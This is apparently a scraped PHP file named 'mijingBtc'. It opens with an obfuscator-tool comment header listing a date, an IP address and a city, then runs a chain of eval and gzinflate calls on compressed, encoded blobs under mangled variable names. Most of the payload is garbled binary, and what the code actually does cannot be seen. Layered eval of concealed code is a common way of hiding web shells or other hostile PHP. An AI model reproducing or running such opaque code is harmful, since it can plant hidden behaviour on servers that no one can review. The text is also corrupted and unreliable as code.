 # mijingBtc


<?php
/***
Site		:	http://www.tool.eddiekidiw.com/phpobfuscator-v-02.html
Date		:	2020-02-16
Day		:	Sunday
Time		:	17:05:37
Ipaddress		:	36.74.83.27
Hostname		:	36.74.83.27
City		:	Surabaya
Country		:	ID
Region		:	East Java
Browser		:	Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36 OPR/56.1.2780.51589
***/
if(!version_compare(PHP_VERSION,'5.6.0','>=')){exit(eval("\145\x63\150\157\x27"."R\145\161\x75\x69\162\x65\x73"." \x50"."H\120\40\65".".\x36\40"."o"."r"." "."h\x69\147\150"."e"."r\47\73"));}$����̗="\147\x7a\151\x6e"."f\x6c"."a\164\145";eval($����̗("���Kq��?B��ݹ�vn�5������ꂹ�
��c���X\"��ղ_��2#�:�X�Y�U�(\"\$�՚R߻�w���Q{ң�����y��c���o\$F��ۂ�a�t\$����]à����q6���V���͡����+Ж���\\��^S��x�7B�S�8����	��� ��� �m��@b �+��#%�_ɇ�h�~��z��S/�%�+���b�)�(J��u��0�6@W�Qm���][�Ơ���J�l�Y.�J��\\d�*�RJ���� N�A#ȡS�
 ��o%�G'd�M�8�v6��hۡ�]%LU���7v��{�ZY�\$1�OL%�l�K�5Ѳ~\$7[��zܪ ���;���_��]�7�w��1�
�h��������`�	�2ײ���R*�6�ͳ-�Sٖ���c=�
UF�Kf6v2��Z�����ܘ C��T�xHW�~�f��f6�ob�(��2����O�f���XP6305��D�P ��b�,�?�{�t�b0\"2���}�+&���N�,�ɵ�뺠�b�\$g���]��fD����%\"��^i�
��e�6*�*_��[X;(��R^R
%	�,�0���a��N�K�/��>�t���m��\\��<�Vw���ǥ�J:�����,y��J�bYQ�����"))^eval($����̗("���0��GS�>�X�h�:�d��Դ̼T
�W����v�W�I�(��OI�P�15P҉�w��q���1�0Ҍ6�0 �XMk����|������]��Oi�3*1����DVʼמċ�>��h��h�V6�d�`Y���J�\\�L��Ժ������*)�)= ��1��1��1��1�)J�*G�f�X� n��?S�@z��~���D���>�q����@��IK "));$�̰�˪=new$����ý("���ůԮ֏��Ǆ������勛��Ԭ�ϯ��ѫ�Ȇ�������������ϖ��������Ц��ݥ��󛼂������⻄埳���������ş��책���������������������������ȩ阍�����̽�����");eval(א����('�Z�踘��o��D�<;a��E���{�$�KĞp�p��3�����a�B���O}�;a�>��+/J�ݒ��14o�/�ksu��֩�	��q����KR�ʙ��5vE}4Ʉ"�K.l3�)�-�\\��$�*��B_����;=a����=@ӫ�;S(�V�ǋ��)`�5���mQ�^������Ƣ�ay�)@ ��1��SP����Ǉ4�8�cb�5Ż�$��A����F�l�VC65��>�� �.3S,d	�3��/�d��4맻���+�5 �.�2N�Br�k��	���[�[q���/D�r�x��A ҆ݱ83ғ6JzR63$�{+җ
�B��0�=\'���F�����R��=�t�Fڦ��x�`���y}�C��t@q�Ҷ0��N�9-6�N����7iu8R.�'))^error_reporting(0)^eval(א����('	E��踘��o��D�<;a��E���{�$�K7�h�v���j������$Y�4��&�	3p�0x�b%�8�95���M ^���\\F_q�����-�v��$M�ç	�g����Rv�����O��3/��k,�G~����N�`!#D<�O�u��s�+���]���ܐ6v�8eJ�b�	{��2[�Ƕ/1�[�4�h�\\9kS�W�ֈ���f>B�%��0MNؤJP��v
���j�����
��eX%,
*:MW8

&�{<k�+q�tQ�8Ph�;����?���W��}��V����h��%���yx���\\*
ҩ�g�y��9���2%/�>2�:n�;]-��+�/�)C�	c�c���H��5�0p��y�p�"O�j��9����oe_�lrw{{�D�lW�m.�G��s��tQ>*wP!x��K����ii�#r�
��*L��8��Hw��4����͋�E&	��@����5�Z��w\\�b�mY�����#��C�͘OiMe��Ъ멚%-��![�l�K��|U�\\ ^��P>��2��u��: b���ڕ��#CY�T�v�A3�F���]��!ʣ�T��4�����d^�
Г��l���T��ζc��y<���]O���̫�Em��_������wյ�\\��x.>��:�����cp�b~Z�U�[�g"��e�-$��"��p.���@��a����J�Pvķ�beM�V�\\Qg�R�p��Ox	@U�)j��j���[��R�����Շ�h��"ƹ�ť��T�`�F���,�:��q73��KTχ��yV�eƺ�����i\'w$K5�����A�;��g�7��H�d�A�-|�L����;eģ�w��r�X/�M�O?�@��L�����@��e�=�"��t(�ߕZE�lK�U���
���#��!
g�����1߫��,@��;s=lJ"��"p�zΑ� �(#����_�܏e�IO���x�ϵ�{���Ai�>3��\'��t0�����\'�٭3�Ho�e�=����+�(V���T !p��k7 ff�2Q�F,r�LW_�����F+ε2�� �6�
���b��� �!]�&���.�M ����Y�����h�����K�j������g3!�&"M��y�0���NZ�F�]N|�t0�?���y,Z�@�ևl���e=7�r���fme;��0����`� s:����E�pc�M��:����ȩ��J����n��������_�LWl�5G�����h~��㟫U���c��WͤxV$"\'d�ˌ��q�I"���s�~T������Oj�vӋ�,�/���L��$�t�Ǘ!AIv4h�@��
	�����0x:t�%���M�f�e���A���C�|U
��4
��l-����